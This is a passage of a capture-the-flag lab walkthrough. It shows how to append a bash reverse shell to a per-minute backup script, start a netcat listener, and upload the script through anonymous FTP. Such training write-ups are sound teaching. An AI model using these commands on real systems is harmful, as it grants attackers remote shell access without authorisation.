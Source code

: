 Upon inspecting the `script` file downloaded, it looks like a scheduled task which runs every minute. Edit the file and append a reverse shell payload, so the file can be uploaded to ftp to gain reverse shell.
{% capture code %}{% raw %}#!/bin/bash

# Created by ElfMcEager to backup all of Santa's goodies!
# Santa likes to delete things, so this script will run every minute.
# But the script will only create a new backup file once a new day arrives.

# Create backups to include date DD/MM/YYYY
filename="backup_`date +%d`_`date +%m`_`date +%Y`.tar.gz";

# Backup FTP folder and store in elfmceager's home directory
tar -zcvf /home/elfmceager/$filename /opt/ftp

# TO-DO: Automate transfer of backups to backup server

# Add payload for reverse shell
bash -i >& /dev/tcp/<local-ip>/4444 0>&1{% endraw %}{% endcapture %} {% include code.html code=code%}

Using `netcat`, create a listener for reverse shell.
{% capture code %}{% raw %}nc -lnvp 4444{% endraw %}{% endcapture %} {% include code.html code=code%}

Use `ftp` to login to the machine with user `anonymous` and upload the `script`.
{% capture code %}{% raw %}Connected to <ip>.

220 Welcome to the TBFC FTP Server!.
Name (<ip>:root): anonymous

230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> cd <folder>
250 Directory successfully changed.

ftp> mput <script>.sh
mput <script>.sh? y
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
383 bytes sent in 0.00 secs (9.3656 MB/s)

ftp> exit
221 Goodbye.{% endraw %}{% endcapture %} {% include code.html code=code%}
